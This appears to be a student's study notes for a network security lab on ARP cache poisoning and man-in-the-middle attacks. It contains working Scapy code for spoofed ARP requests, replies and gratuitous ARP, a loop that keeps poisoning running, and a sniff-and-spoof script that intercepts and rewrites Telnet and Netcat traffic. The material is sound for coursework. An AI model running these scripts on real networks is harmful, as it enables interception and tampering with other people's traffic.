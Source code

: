 ## Message Integrity, PKI, and TLS

## Firewalls

## Layer 2 Security

## Wireless Security

## Lab 3

**I. Core ARP Concepts**

*   **ARP (Address Resolution Protocol):** Maps IP addresses to MAC addresses on a local network.
*   **ARP Request:** Broadcast. "Who has IP `target_IP`? Tell `sender_IP`."
    *   Ethernet Dst: `ff:ff:ff:ff:ff:ff`
    *   ARP Opcode: `1` (request)
    *   ARP `psrc`: `sender_IP`, `hwsrc`: `sender_MAC`
    *   ARP `pdst`: `target_IP`, `hwdst`: `00:00:00:00:00:00` (or `ff:ff:ff:ff:ff:ff` for Gratuitous)
*   **ARP Reply:** Unicast (usually). "`target_IP` is at `target_MAC`."
    *   Ethernet Dst: `requester_MAC`
    *   ARP Opcode: `2` (reply)
    *   ARP `psrc`: `target_IP`, `hwsrc`: `target_MAC` (this is what the victim caches)
    *   ARP `pdst`: `sender_IP`, `hwdst`: `sender_MAC`
*   **ARP Cache:** Temporary storage on hosts for IP-MAC mappings.
    *   Check: `arp -n` (Linux)
    *   Delete entry: `arp -d <IP_ADDRESS>`
*   **Gratuitous ARP:** A host sends an ARP packet (often a request, sometimes a reply) about its *own* IP address, not in response to a request.
    *   **Purpose:** Update ARP caches of other hosts (e.g., after IP change), detect IP conflicts.
    *   **For Poisoning (Task 1.C - Gratuitous ARP Request):**
        *   ARP `psrc` (Sender IP) = ARP `pdst` (Target IP) = IP being claimed.
        *   ARP `hwsrc` (Sender MAC) = Attacker's MAC.
        *   Ethernet Dst = `ff:ff:ff:ff:ff:ff` (Broadcast).
        *   ARP `hwdst` = `ff:ff:ff:ff:ff:ff` (Broadcast in lab spec).

**II. ARP Poisoning Techniques (Scapy Examples)**

*   **Victim:** Host A (`IP_A`, `MAC_A`)
*   **Target of Impersonation:** Host B (`IP_B`, `MAC_B`)
*   **Attacker:** Host M (`IP_M`, `MAC_M`)

1.  **Task 1.A: ARP Request Attack** (Poison A's cache: `IP_B` is at `MAC_M`)
    ```python
    # On Host M, send to Host A
    # Tell A that IP_B (psrc) is at MAC_M (hwsrc), by asking A (pdst) about itself
    arp_pkt = Ether(src=MAC_M, dst=MAC_A) / \
              ARP(op=1, # Request
                  hwsrc=MAC_M, psrc=IP_B,  # Spoofed Sender (M claims to be B)
                  hwdst="00:00:00:00:00:00", pdst=IP_A) # Actual Target of ARP query
    sendp(arp_pkt, iface="eth0", verbose=False)
    ```
    *Key Idea:* A receives an ARP request seemingly from `IP_B` (but with `MAC_M`). Some OSes might cache `IP_B -> MAC_M` from the `psrc`/`hwsrc` of the request.

2.  **Task 1.B: ARP Reply Attack** (Poison A's cache: `IP_B` is at `MAC_M`)
    ```python
    # On Host M, send to Host A
    # Tell A (pdst, hwdst) that IP_B (psrc) is at MAC_M (hwsrc)
    arp_pkt = Ether(src=MAC_M, dst=MAC_A) / \
              ARP(op=2, # Reply
                  hwsrc=MAC_M, psrc=IP_B,    # The poisoned mapping
                  hwdst=MAC_A, pdst=IP_A)    # Destination of this reply
    sendp(arp_pkt, iface="eth0", verbose=False)
    ```
    *Key Idea:* Send an unsolicited ARP reply to A.

3.  **Task 1.C: Gratuitous ARP Request Attack** (Poison A's cache: `IP_B` is at `MAC_M`)
    ```python
    # On Host M, send as broadcast
    # Announce that IP_B (psrc, pdst) is at MAC_M (hwsrc)
    BROADCAST_MAC = "ff:ff:ff:ff:ff:ff"
    arp_pkt = Ether(src=MAC_M, dst=BROADCAST_MAC) / \
              ARP(op=1, # Request
                  hwsrc=MAC_M, psrc=IP_B,        # Announce IP_B is at MAC_M
                  hwdst=BROADCAST_MAC, pdst=IP_B) # Target IP is also IP_B
    sendp(arp_pkt, iface="eth0", verbose=False)
    ```
    *Key Idea:* Broadcast an ARP request where sender IP and target IP are the IP address being advertised (`IP_B`), with attacker's MAC (`MAC_M`).


**III. Man-in-the-Middle (MITM) Attack**

1.  **Setup:**
    *   **Poison A:** Convince A that `IP_B` is at `MAC_M`.
    *   **Poison B:** Convince B that `IP_A` is at `MAC_M`.
        *   Use ARP Reply attacks (like Task 1.B, but targeted appropriately for each victim).
        *   Run `poison_a.py` and `poison_b.py` continuously in background:
            `while true; do sudo python3 poison_script.py; sleep 2; done`
    *   **IP Forwarding on Attacker (M):**
        *   `sudo sysctl net.ipv4.ip_forward=1` (Enable: to establish initial connection)
        *   `sudo sysctl net.ipv4.ip_forward=0` (Disable: to let Scapy script intercept & modify)

![[Screenshot 2025-05-16 at 9.51.24 AM.png]]

2.  **Scapy Sniff-and-Spoof (Skeleton for `mitm_telnet.py` / `mitm_netcat.py`):**
    ```python
    from scapy.all import *

    # IP_A, MAC_A, IP_B, MAC_B, MAC_M defined
    # For Netcat: student_id_bytes, replacement_bytes defined

    def spoof_pkt(pkt):
        if IP in pkt and TCP in pkt:
            # Packet from A to B (Client -> Server)
            if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
                newpkt_ip = IP(bytes(pkt[IP])) # Copy L3+
                del(newpkt_ip.chksum)
                del(newpkt_ip[TCP].chksum)
                
                if pkt[TCP].payload:
                    data = pkt[TCP].payload.load
                    # --- MODIFICATION LOGIC ---
                    # Telnet: newdata = data.replace(b'Q', b'Z')
                    # Netcat: newdata = data.replace(student_id_bytes, replacement_bytes)
                    # --------------------------
                    if TCP in newpkt_ip and Raw in newpkt_ip[TCP]: # Clear old payload
                        del(newpkt_ip[TCP].payload)
                    sendp(Ether(src=MAC_M, dst=MAC_B)/newpkt_ip/newdata, iface="eth0", verbose=False)
                else: # No payload
                    sendp(Ether(src=MAC_M, dst=MAC_B)/newpkt_ip, iface="eth0", verbose=False)
            
            # Packet from B to A (Server -> Client - usually just forward)
            elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
                newpkt_ip = IP(bytes(pkt[IP]))
                del(newpkt_ip.chksum)
                del(newpkt_ip[TCP].chksum)
                # No payload modification for B->A in this lab
                sendp(Ether(src=MAC_M, dst=MAC_A)/newpkt_ip, iface="eth0", verbose=False)

    # Filter for Telnet: f = f"tcp and port 23 and ((src host {IP_A} and dst host {IP_B}) or (src host {IP_B} and dst host {IP_A}))"
    # Filter for Netcat: f = f"tcp and port 9090 and ..." (similar structure)
    sniff(iface="eth0", filter=f, prn=spoof_pkt, store=0)
    ```

**IV. Key Tools & Commands**

*   **Scapy:** Python library for packet manipulation.
    *   `Ether()`, `ARP()`, `IP()`, `TCP()`, `Raw()` (for payload)
    *   `/` operator to stack layers.
    *   `sendp()`: Send packet at Layer 2 (needs full Ethernet frame).
    *   `sniff()`: Capture packets.
*   **Wireshark:** Packet analyzer.
    *   Capture on `br-xxxx` (host bridge interface).
    *   Display filters (e.g., `arp`, `tcp.port == 23`, `ip.addr == x.x.x.x`).
*   `telnet <IP>`
*   `nc <IP> <PORT>` (client)
*   `nc -lp <PORT>` (server)

## Lab 4

## TLS HW3
